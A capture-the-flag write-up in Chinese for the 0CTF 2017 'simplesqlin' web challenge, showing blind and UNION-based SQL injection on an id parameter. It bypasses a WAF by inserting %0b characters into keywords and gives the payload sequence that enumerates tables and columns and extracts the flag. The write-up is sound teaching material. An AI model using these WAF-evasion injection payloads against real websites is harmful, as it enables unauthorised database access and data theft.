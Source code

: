 # 0CTF QUALS 2017 : simplesqlin

**category** : web

**points** : 34

## writeup

網址 : http://202.120.7.203/ ( 可能不給連了 )

index page 有全部文章的連結

![index page](index.png)

article page 是 index.php 傳 id parameter 進去資料庫抓東西出來顯示

![article page](index-id.png)

所以很明顯的就是 sql injection id 這個欄位

Blind injection 成功

`id=1 AND 1=1 #`

`id=1 AND 1=2 #`

UNION SELECT 失敗(被 WAF 擋掉了)

`id=1 UNION SELECT database() #`

![waf protection](waf.png)

要怎麼 bypass 討厭的 WAF 呢 ( 我比賽的時候到這邊就不行了O_O )

看了別人的 writeup ( https://rawsec.ml/en/0CTF-2017-write-ups/#simplesqlin-web and http://piratefache.ch/0ctf-2017-simplesqlin )

發現可以用 %0b ( Verticle TAB ) 這種在 ASCII 表裡面沒有實際輸出的東西插到字裡面

`id=0 UN%0bION SEL%0bECT null,null,database() #`

就會得到 `news` 就是我們目前 database 的名字

上面那行有兩個重點 ( 除了 %0b 上面講了 )

第一，注意 id=0 因為 id=1 的話他會真的抓到文章你 UNION SELECT 到的東東就不會顯示出來了

第二，注意 null,null,database() 有兩個 null 那是用來做 padding 的，因為 UNION SELECT 必需和前面的 SELECT 欄位格數一致

不知道要塞幾個 null 可以用試的

最後只要一步一步根據 schema -> table -> column 就可以找到了

`id=0 UN%0bION SEL%0bECT null,null,table_name FR%0bOM information_schema.tables WHE%0bRE table_schema = 'news' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,column_name FR%0bOM information_schema.columns WHE%0bRE table_schema = 'news' AND table_name = 'flag' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,flag FR%0bOM flag`

flag{W4f_bY_paSS_f0R_CI}

看別人的 writeups 還發現可以用 GROUP_CONCAT 去一次挖出一堆東東

比如說一次挖出所有 tables

`id=0 UN%0bION SE%0bLECT null,null,GROUP_CONCAT(table_name) FR%0bOM information_schema.tables #`

CHARACTER_SETS,...,flag,news ( 太多了...省略部分 )

## other write-ups and resources

* https://rawsec.ml/en/0CTF-2017-write-ups/#simplesqlin-web

